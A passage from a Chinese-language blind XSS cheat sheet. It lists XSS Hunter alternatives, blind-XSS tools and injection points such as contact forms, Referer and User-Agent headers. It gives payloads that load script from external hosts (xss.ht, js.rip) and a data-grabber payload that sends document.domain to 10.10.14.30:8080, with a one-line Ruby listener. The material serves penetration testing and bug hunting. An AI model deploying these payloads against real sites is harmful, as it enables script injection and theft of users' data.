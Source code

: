 XSS猎手已被弃用，曾可用作 [https://xsshunter.com/app](https://xsshunter.com/app)。

您可以设置一个替代版本

- 自托管版本来自 [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
- 托管于 [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### 其他盲XSS工具

- [Netflix-Skunkworks/sleepy-puppy](https://github.com/Netflix-Skunkworks/sleepy-puppy) - Sleepy Puppy XSS Payload Management Framework
- [LewisArdern/bXSS](https://github.com/LewisArdern/bXSS) - bXSS是一个可以被漏洞猎人和组织用来识别盲跨站脚本的实用程序。
- [ssl/ezXSS](https://github.com/ssl/ezXSS) - ezXSS是渗透测试人员和漏洞赏金猎人测试（盲）跨站脚本的一种简便方法。

### 盲XSS端点

- 联系表单
- 支持票务
- Referer头
    - 自定义站点分析
    - 管理面板日志
- 用户代理
    - 自定义站点分析
    - 管理面板日志
- 评论框
    - 管理面板

### 提示

您可以使用[XSS数据抓取器](#data-grabber)和一个一行HTTP服务器来确认盲XSS的存在，然后再部署重量级的盲XSS测试工具。

示例载荷：

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

示例一行HTTP服务器：

```ps1
ruby -run -ehttpd . -p8080
```

## 变异XSS

利用浏览器的怪癖来重新创建一些HTML标签。

**示例**：由Masato Kinugawa提出的变异XSS，用于针对Google搜索中的[cure53/DOMPurify](https://github.com/cure53/DOMPurify)组件。
